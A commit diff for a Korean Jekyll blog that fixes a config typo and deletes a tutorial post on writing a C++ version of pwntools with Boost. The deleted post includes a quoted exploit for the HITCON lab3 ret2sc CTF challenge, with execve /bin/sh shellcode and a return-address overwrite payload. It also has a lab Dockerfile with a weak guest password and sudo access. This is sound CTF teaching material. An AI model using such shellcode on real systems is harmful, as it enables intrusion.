

Before and after one commit to lucid78/lucid78.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; the list of posts is cut into pages by our own code; after the commit the page ends 900 px from its top, so only the background shows below that; part of the change alters nothing that is shown.

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -277,6 +277,6 @@ defaults:
       classes: wide
       author_profile: true
       read_time: true
-      comments: rue
+      comments: true
       share: true
       related: true
--- a/_posts/2021-01-10-pwntools-cpp.md
+++ /dev/null
@@ -1,493 +0,0 @@
-
-pwntools는 CTF에 관심있는 사람이라면 한번쯤은 들어봤을 법한 pwnable을 위한 전용 도구이다. ([https://github.com/Gallopsled/pwntools](https://github.com/Gallopsled/pwntools))
-
-python으로 제작된 이 도구는 ctf에서 pwnable을 빠르게 진행할 수 있도록 각종 편의 기능을 보유하고 있어 매우 편리하다.
-만약 비교적 최근에 pwnable을 시작한 newbie라면 hexray(IDA)와 pwntools 없이는 pwnable이 불가능할 수도 있을만큼 필수적인 도구로 자리매김하고 있다.
-
-취미 생활로 CTF 풀이를 할 때마다 예전 버릇이 남아있어 주로 cpp로 exploit 코드를 작성하곤 했는데, 아무래도 pwntools가 엄청 편리한지라 라이브러리를 한번 찾아보게 되었다.
-github에 몇 개의 비슷한 프로그램이 있기는 했지만 딱히 마음에 드는 게 없어서 직접 만들어보기로 결심하였고, 모자란 기억을 보충하기 위해 개발 히스토리를 블로그에 남겨보고자 한다.
-
-가급적 노가다를 줄이기 위해 boost([https://www.boost.org/](https://www.boost.org/))를 이용해 개발하기로 하였다.(사실 왜 boost로 시작했는지 잘 기억은 안나는데, 매뉴얼 및 사용층이 부족한 boost를 선택한 것이 과연 노가다를 줄이기는 한 건지 좀 의심되기는 한다;;;).
-그리고 프로그램의 테스트는 Hitcon-Trainning([https://github.com/scwuaptx/HITCON-Training](https://github.com/scwuaptx/HITCON-Training)) 문제를 사용하기로 했다.
-
-### **환경 구축**
-
-pwntoolcpp의 최종 형태는 라이브러리가 될  예정이지만 쉽고 빠르고 간단한 테스트를 위해 일단 하나의 프로그램에서 동작하도록 작성하기로 한다.
-~/workspaces 아래에 ptcpp라는 디렉토리를 생성하여 docker 실행 시 연결되도록 하고, 소스 에디팅은 Host에서, compile만 docker에서 하도록 하였다.
-
-아래 dockerfile과 run.sh를 이용해 테스트 환경을 구축하자.
-
-```docker
-FROM ubuntu:latest
-
-ENV DEBIAN_FRONTEND=noninteractive
-
-RUN apt-get update --fix-missing \
-  && apt-get -y install locales \
-  && locale-gen en_US.UTF-8 \
-  && apt-get -y install gcc net-tools vim nano gdb python3 wget git make procps gcc-multilib socat cmake \
-                       	libpcre3-dev libdb-dev libxt-dev libxaw7-dev curl binutils nasm bash-completion \
-                       	build-essential software-properties-common g++-multilib libssl-dev apport \
-                       	python3-pip python-dev netcat sudo libc6-dbg-i386-cross libc6-dbg telnet \
-                        libc6-i386 libboost-all-dev \
-  && adduser --disabled-password --gecos '' guest \
-  && echo 'guest:guest' | chpasswd \
-  && wget -O /home/guest/.gdbinit-gef.py -q http://gef.blah.cat/py \
-  && echo "source /home/guest/.gdbinit-gef.py" > "/home/guest/.gdbinit" \
-  && echo "catch exec" | cat >> /home/guest/.gdbinit \
-  && echo "set follow-fork-mode child" | cat >> /home/guest/.gdbinit \
-  && chown guest:guest /home/guest/.gdbinit-gef.py /home/guest/.gdbinit \
-  && python3 -m pip install --upgrade pip \
-  && python3 -m pip install pwntools \
-  && python3 -m pip install setuptools \
-  && curl https://bootstrap.pypa.io/get-pip.py --output get-pip.py \
-  && python2 get-pip.py \
-  && python2 -m pip install pwntools \
-  && echo "%sudo ALL=(ALL:ALL) ALL" | cat >> /etc/sudoers \
-  && usermod -aG sudo guest
-
-RUN dpkg --add-architecture i386 \
-  && git clone https://github.com/scwuaptx/HITCON-Training /tmp/hitcon
-
-WORKDIR /home/guest/ptcpp
-```
-
-```bash
-#!/bin/bash
-
-TAG=build
-HOME=/home/lucid7 **<== 수정 필요**
-docker build --tag $TAG .
-docker run --cap-add=SYS_PTRACE \
-           --security-opt seccomp=unconfined \
-           --name $TAG \
-           --user guest \
-           --hostname $TAG \
-           --entrypoint /bin/bash \
-           -it \
-           --volume $HOME/workspaces/ptcpp:/home/guest/ptcpp \
-           $TAG
-```
-
-
-약간의 시간이 흐른 후 아래와 같이 docker 개발 환경 구축이 완성된다.
-![full](/assets/images/docker.png)
-
-
-### **문제 확인**
-
-HITCON LAB3 문제를 확인해보자.
-해당 파일은 /tmp/hitcon 디렉토리 안에 위치해 있다.
-ret2sc.c 소스를 보면 아래와 같이 가장 기초적인 문제임을 알 수 있다.
-
-![full](/assets/images/ret2sc.c.png)
-
-<br><br>
-해당 문제를 검색해 보면 다음과 같은 풀이집이 있다. ([https://ii4gsp.tistory.com/97](https://ii4gsp.tistory.com/97)).
-아래는 해당 풀이집에서 발췌한 pwntools를 이용한 exploit code이다.
-```python
-from pwn import *
-
-p = process('/home/ii4gsp/HITCON-Training/LAB/lab3/ret2sc')
-shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
-name = 0x804a060
-
-p.recvuntil(':')
-p.sendline(shellcode)
-
-payload = ''
-payload += '\x90' * 32
-payload += p32(name)
-
-p.recvuntil(':')
-p.sendline(payload)
-
-p.interactive()
-```
-
-위의 python 코드를 보면 ":" 문자열이 나올때까지 출력을 읽어(recvuntil) 특정 값을 쓰는(sendline) 동작을 2번 반복한 다음 마지막으로 interactive() 함수를 호출한다.
-
-위의 exploit code에서 ret2sc 패스만 수정하여 실행해보면 아래와 같이 정상적으로 shell을 획득하는 것을 볼 수 있다.
-![full](/assets/images/ret2sc.png)
-
-
-지금까지 cpp를 이용한 pwntools를 제작하기 위한 개발환경 구축 및 pwntools를 이용한 exploit 코드의 기본적인 동작을 분석하였다.
-다음으로 위의 코드를 기반으로 pwntoolcpp를 제작해 볼 것이다.
-우리가 만들어야 할 기본 기능은 process라는 클래스와 recvuntil(), sendline(), p32(), interactive() 멤버 함수이다.
-
-
-
-## **PROCESS 클래스**
-
-먼저 process 클래스를 만들어보자. process 클래스는 매개변수로 전달받은 실행파일을 실행하고, console과 해당 프로세스 사이에서의 입출력을 전달한다.
-
-일반적으로 C 프로그램에서 이 기능을 하기 위해서는 fork를 해서 child process의 pipe를 조정해서 입출력을 전달해야 한다.(매우 귀찮은 작업이다). 하지만 C++에서는 boost 라이브러리의 boost::process::child 클래스([https://www.boost.org/doc/libs/1_75_0/doc/html/boost/process/child.html](https://www.boost.org/doc/libs/1_75_0/doc/html/boost/process/child.html))로 쉽고 편하게 사용할 수 있다.
-
-boost::process::child는 실행할 프로그램의 path를 전달하여 간단히 사용할 수도 있으며, 입출력을 redirect 하려면 아래와 같이 pipe 생성 후 매개변수로 전달하기만 하면 된다.
-```cpp
-std::string m_path;    // 실행할 파일의 경로
-boost::asio::io_context io;
-boost::process::async_pipe input(io);
-boost::process::async_pipe output(io);
-boost::process::async_pipe error(io);
-
-boost::process::child process(m_path,
-                              boost::process::std_out > output,
-                              boost::process::std_in < input,
-                              boost::process::std_err > error,
-                              io);
-```
-
-<br><br>
-만약 실행해야 할 프로그램이 입력 값을 받는다면 아래와 같이 입력 값을 string vector로 전달하기만 하면 된다.
-```cpp
-std::string m_path;    // 실행할 파일의 경로
-boost::asio::io_context io;
-boost::process::async_pipe input(io);
-boost::process::async_pipe output(io);
-boost::process::async_pipe error(io);
-std::vector<std::string> args;    // 입력 값 vector
-
-boost::process::child process(m_path,
-                              boost::process::args(args),
-                              boost::process::std_out > output,
-                              boost::process::std_in < input,
-                              boost::process::std_err > error,
-                              io);
-```
-
-<br><br>
-
-제대로 동작하는지 ret2sc 바이너리를 대상으로 아래와 같이 테스트 코드를 작성하고 실행해보자.
-```cpp
-#include <iostream>
-#include <boost/process.hpp>
-#include <boost/asio.hpp>
-#include <boost/thread.hpp>
-#include <boost/chrono.hpp>
-#include <mutex>
-
-class PROCESS
-{
-
-private:
-    std::string m_path;
-    boost::asio::io_context io;
-    boost::process::async_pipe input;
-    boost::process::async_pipe output;
-    boost::process::async_pipe error;
-    boost::process::child c;
-    boost::system::error_code ec;
-
-public:
-
-    PROCESS(const std::string& _path)
-    : m_path(_path),
-      input(io),
-      output(io),
-      error(io),
-      c(m_path,
-        boost::process::std_out > output,
-        boost::process::std_in < input,
-        boost::process::std_err > error,
-        io)
-        {
-            init();
-        }
-
-    PROCESS(const std::string& _path, const std::vector<std::string>& args)
-    : m_path(_path),
-      input(io),
-      output(io),
-      error(io),
-      c(m_path,
-        boost::process::args(args),
-        boost::process::std_out > output,
-        boost::process::std_in < input,
-        boost::process::std_err > error,
-        io)
-        {
-            init();
-        }
-
-    ~PROCESS()
-    {
-        std::cout << "[*] Stopping process... pid is " << std::to_string(c.id()) << std::endl;
-        c.terminate();
-    }
-
-private:
-    void init()
-    {
-        std::cout << "[*] Starting process... pid is " << std::to_string(c.id()) << std::endl;
-        io.run();
-    }
-
-};
-
-int main()
-{
-    try
-    {
-        PROCESS process3{"/tmp/hitcon/LAB/lab3/ret2sc"};
-    }
-    catch (std::exception& e)
-    {
-        std::cerr << "Exception: " << __FUNCTION__ << " " << e.what() << "\n";
-    }
-
-    return 0;
-}
-```
-
-<br><br>
-컴파일을 위한 Makefile은 아래와 같다.
-```cpp
-GCC=/usr/bin/g++
-CFLAGS= -c -pipe -O2 -std=gnu++1z -Wall -Wextra -fPIC
-OBJS= main.o
-TARGET=pwntools_test
-
-all: $(TARGET)
-
-$(TARGET): $(OBJS)
-	$(GCC) -Wl,-O1 -o $(TARGET) main.o  -L. -lpthread -lboost_thread -lboost_chrono
-
-main.o : main.cpp
-	$(GCC) $(CFLAGS) -o main.o main.cpp -I.
-
-clean:
-	rm -f *.o *.core *~
-	rm -f $(TARGET)
-```
-
-<br><br>
-아래와 같이 ptcpp 디렉토리 밑에 위의 소스를 생성한 후 make 명령어로 컴파일을 한다.
-![full](/assets/images/make.png)
-
-<br><br>
-컴파일에 성공하면 아래와 같이 pwntools_test 파일이 생성된다.
-![full](/assets/images/test.png)
-
-<br><br>
-아래는 생성된 pwntools_test 파일을 실행한 결과이며, ret2sc 바이너리가 child process로 생성되었다가 정상적으로 종료되었다.
-![full](/assets/images/test.png)
-
-
-다음으로 추가할 기능은 프로세스를 처음 실행했을 때 출력되는 문자열을 읽어서 화면에 출력하는 기능이다. "/tmp/hitcon/LAB/lab3/ret2sc"를 실행시키면 아래와 같이 "Name:" 문자열이 출력한 후 사용자로부터의 입력을 기다리는 상태가 된다.
-
-![full](/assets/images/cons.png)
-
-<br><br>
-우리는 위에서 boost::process::child로 대상 프로그램을 child process로 생성할 때, 해당 프로그램의 stdout을 output pipe로 redirect 하였으므로, output pipe을 읽어서 화면에 출력하면 될 것이다.
-
-boost에서 pipe를 읽는 여러 방법들 중 boost::asio::read()를 사용하면 가장 간단하게 구현할 수 있다.
-([https://www.boost.org/doc/libs/1_74_0/doc/html/boost_asio/reference/read.html](https://www.boost.org/doc/libs/1_74_0/doc/html/boost_asio/reference/read.html))
-
-<br><br>
-아래는 boost::asio::read()를 사용하는 예제이다.
-```cpp
-boost::asio::streambuf buf;    // pipe에서 읽은 data를 저장하는 buffer
-buf.prepare(4096);             // buffer의 크기 설정
-
-auto size = boost::asio::read(output, buf, boost::asio::transfer_at_least(1), ec);
-std::cout << std::string(buffers_begin(buf.data()), buffers_begin(buf.data()) + size) << std::endl;
-buf.consume(size);
-```
-
-먼저 pipe에서 읽은 data를 저장할 stream buffer를 선언하고, 충분한 크기로 설정한다.
-([https://www.boost.org/doc/libs/1_74_0/doc/html/boost_asio/reference/streambuf.html](https://www.boost.org/doc/libs/1_74_0/doc/html/boost_asio/reference/streambuf.html))
-
-boost의 stream buffer는 이름 그대로 stream data를 저장하는 buffer이고, 일반적으로 사용되는 buffer와는 사용방법이 조금 틀리다.
-간단히 설명하면 streabuf는 읽기와 쓰기를 위한 2개의 인덱스를 가지고 있는데 읽기/쓰기 후에는 반드시 이 인덱스들의 위치를 변경해야 한다.
-<br>위의 예제 코드 가장 마지막 라인에서는 읽기 작업 후, read()에서 반환된 size만큼 consume()을 호출해서 인덱스를 변경하였다. 만약 streambuf에 쓰기 작업을 하였다면, commit() 함수를 반드시 호출해 주어야한다.
-
-또한 read() 함수는 전통적인 c에서의 read() 함수와 달리 리턴되기 전에 스트림에서 일정한 양의 데이터를 읽어서 buffer에 저장하는 역할을 한다. 따라서 원래 읽기를 원했던 전체 길이 중 일부분이 먼저 buffer에 저장된 채로 반환될 수 있기 때문에, stream buffer의 consume()을 반드시 호출해야만 순차적으로 data를 저장할 수 있다.
-<br>앞에서 이야기한 일정한 양은 read() 함수에 전달되는 세번째 변수에 의해 정해지는데, 위의 예제에서는 boost::asio::transfer_at_least(1) 값이 전달되어, 최소 1개 이상의 data를 읽으면 반환하도록 되어 있다.
-
-<br><br>여기서 또 혼돈을 일으킬만한 것이 boost::asio::transfer_at_least(1)을 전달했을 경우 buffer에 저장된 data의 길이가 1이 아닐 수도 있다는 것이다.
-<br>위의 코드에서 read() 함수가 반환되었을 때 buffer에 저장된 data의 정확한 크기는 알 수 없다. 이는 boost 매뉴얼에도 정의되어 있지 않은데, stream buffer의 크기가 클수록 한번에 읽어들이는 크기가 크다는 것은 실험을 통해서 알 수 있었다. <br>따라서 boost::process::child로 실행시킬 프로그램이 출력하는 data가 많을수록 stream buffer의 크기 또는 boost::asio::transfer_at_least()의 값을 크게 설정해야만 전체 data를 한번에 읽을 수 있다.
-
-위의 코드에서는 대상 프로그램이 출력하는 데이터의 크기를 알 수 없기 때문에(만약 10으로 설정했는데, 출력되는 값이 10 미만이라면 read()가 반환되지 않아 프로그램이 멈출 것이다), boost::asio::transfer_at_least()의 값을 1로 설정하여, 1개 이상의 data를 읽으면 반환하도록 하였다. 그리고 stream buffer의 크기를 크게 잡음으로써, 만약 큰 크기의 출력값이 발생하더라도 한번에 읽을 수 있도록, 최대한 안정적으로 동작하게끔 하였다.
-<br>만약 정확히 1개의 data만을 읽고 싶다면, boost::asio::transfer_exactly(1)을 전달해야 한다. 만약 모든 데이터를 읽은 후 반환되게 하고 싶다면(sync처럼 동작하게끔 하고 싶다면), 세번째 변수에 boost::asio::transfer_all()을 전달해야만 한다.
-
-<br><br>
-한가지 더 고려해야 하는 사항은 바로 read() 호출이 반환이 되지 않는 상황이다. 예를 들어 10개의 data가 들어올 것으로 예상해서 read()를 호출하였는데, 실제 8개의 data만을 읽을 수 있었다면, read()는 이후의 data가 들어올 때까지 계속 대기상태에 머무른다. 또한 대상 프로그램에서 읽어야 할 data가 있는지 없는지 모르는 상황에서의 read() 호출은 예상치 못한 대기상태를 야기하게 되므로, 적당한 시간 이후에 read() 호출을 강제로 끝내야만 프로그램이 안정적으로 동작할 것이다. 따라서 read() 호출은 비동기 함수 또는 스레드로 이루어져야 한다.
-
-아래는 스레드 내에서 read()를 호출하도록 구현한 코드 예제이다.
-
-```cpp
-boost::thread out_thread([&]()
-{
-    boost::asio::streambuf buf;
-    buf.prepare(buffer_length);
-    if(const auto size{boost::asio::read(output, buf, boost::asio::transfer_at_least(1), ec)}; size != 0)
-    {
-        locked_output(buffer_to_string(buf, size));
-        buf.consume(size);
-    }
-});
-out_thread.try_join_for(boost::chrono::milliseconds(200));
-```
-
-thread 내에서 1개 이상의 data를 읽어오면 반환되도록 read()를 호출하며, out_buffer에 저장된 data를 출력한다. 읽어온 data의 수만큼 consume()을 호출하여 index를 조절한다. 이 스레드는 만약 read() 함수가 응답이 없을 경우 200ms 후에 종료된다.
-
-<br><br>
-마지막으로 고려해야 하는 상황은 바로 error이다.
-<br>특정 프로그램을 실행했을 때 어떠한 이유로 인해 error가 발생할 수도 있다. unix 기반 프로그램에서 error는 일반적으로 stderr로 전달되므로, 우리는 child process에서 발생하는 error 메세지 확인을 위해 stderr을 redirect한 후 이를 읽어보아야 한다.
-
-아래는 역시 스레드 내에서 error code를 읽는 read()를 호출하도록 구현된 코드 예제이다.
-
-```cpp
-boost::thread error_thread([&]()
-{
-    boost::asio::streambuf buf;
-    buf.prepare(buffer_length);
-    if(const auto size{boost::asio::read(error, buf, boost::asio::transfer_at_least(10), ec)}; size != 0)
-    {
-        locked_output(buffer_to_string(buf, size));
-        buf.consume(size);
-    }
-});
-error_thread.try_join_for(boost::chrono::milliseconds(200));
-```
-<br>
-스레드에서 출력하기 때문에, 예쁜 출력을 위해 locked_output() 이라는 함수를 아래와 같이 추가하였다.
-
-```cpp
-void locked_output(const std::string& s)
-{
-    std::lock_guard<std::recursive_mutex> guard(lock);
-    std::cout << s << std::endl;
-}
-```
-<br><br>
-아래는 지금까지 확인한 사항들이 모두 반영된 테스트 코드 및 실행결과이다.
-
-```cpp
-#include <iostream>
-#include <boost/process.hpp>
-#include <boost/asio.hpp>
-#include <boost/thread.hpp>
-#include <boost/chrono.hpp>
-#include <mutex>
-
-class PROCESS
-{
-
-private:
-    std::string m_path;
-    boost::asio::io_context io;
-    boost::process::async_pipe input;
-    boost::process::async_pipe output;
-    boost::process::async_pipe error;
-    boost::process::child c;
-    boost::system::error_code ec;
-
-    std::recursive_mutex lock;
-    const int buffer_length{4096};
-
-public:
-
-    PROCESS(const std::string& _path)
-    : m_path(_path),
-      input(io),
-      output(io),
-      error(io),
-      c(m_path,
-        boost::process::std_out > output,
-        boost::process::std_in < input,
-        boost::process::std_err > error,
-        io)
-        {
-            init();
-        }
-
-    PROCESS(const std::string& _path, const std::vector<std::string>& args)
-    : m_path(_path),
-      input(io),
-      output(io),
-      error(io),
-      c(m_path,
-        boost::process::args(args),
-        boost::process::std_out > output,
-        boost::process::std_in < input,
-        boost::process::std_err > error,
-        io)
-        {
-            init();
-        }
-
-    ~PROCESS()
-    {
-        std::cout << "[*] Stopping process... pid is " << std::to_string(c.id()) << std::endl;
-        c.terminate();
-    }
-
-private:
-    void init()
-    {
-        std::cout << "[*] Starting process... pid is " << std::to_string(c.id()) << std::endl;
-        read_at_once();
-        io.run();
-    }
-
-    const std::string buffer_to_string(const boost::asio::streambuf &buffer, const size_t& size)
-    {
-        return {buffers_begin(buffer.data()), buffers_begin(buffer.data()) + size};
-    }
-
-    void read_at_once()
-    {
-        boost::thread out_thread([&]()
-        {
-            boost::asio::streambuf buf;
-            buf.prepare(buffer_length);
-            if(const auto size{boost::asio::read(output, buf, boost::asio::transfer_at_least(1), ec)}; size != 0)
-            {
-                locked_output(buffer_to_string(buf, size));
-                buf.consume(size);
-            }
-        });
-        out_thread.try_join_for(boost::chrono::milliseconds(200));
-
-        boost::thread error_thread([&]()
-        {
-            boost::asio::streambuf buf;
-            buf.prepare(buffer_length);
-            if(const auto size{boost::asio::read(error, buf, boost::asio::transfer_at_least(10), ec)}; size != 0)
-            {
-                locked_output(buffer_to_string(buf, size));
-                buf.consume(size);
-            }
-        });
-        error_thread.try_join_for(boost::chrono::milliseconds(200));
-    }
-
-    void locked_output(const std::string& s)
-    {
-        std::lock_guard<std::recursive_mutex> guard(lock);
-        std::cout << s << std::endl;
-    }
-
-};
-
-int main()
-{
-    try
-    {
-        PROCESS p{"/tmp/hitcon/LAB/lab3/ret2sc"};
-    }
-    catch (std::exception& e)
-    {
-        std::cerr << "Exception: " << __FUNCTION__ << " " << e.what() << "\n";
-    }
-
-    return 0;
-}
-```
-
-![full](/assets/images/process.png)
-
-
-여기까지 Process 클래스의 가장 기본적인 기능이 구현되었다. 이제 다음은 recvuntil()을 구현해 볼 차례이다.
````
Also changed, not shown: assets/images/recvuntil_1.png (added), assets/images/recvuntil_2.png (added), 9 other files.
